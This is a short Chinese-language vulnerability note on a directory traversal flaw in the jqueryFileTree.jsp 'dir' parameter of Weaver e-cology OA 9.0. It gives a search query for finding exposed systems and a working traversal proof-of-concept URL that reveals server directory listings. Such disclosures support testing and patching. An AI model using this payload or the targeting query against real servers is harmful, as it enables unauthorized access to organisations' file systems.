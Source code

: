 # 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

# 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中 jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

```
泛微e-cology 9.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![1](/images/202209131045944.png)

验证POC

```
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![2](/images/202209131046623.png)

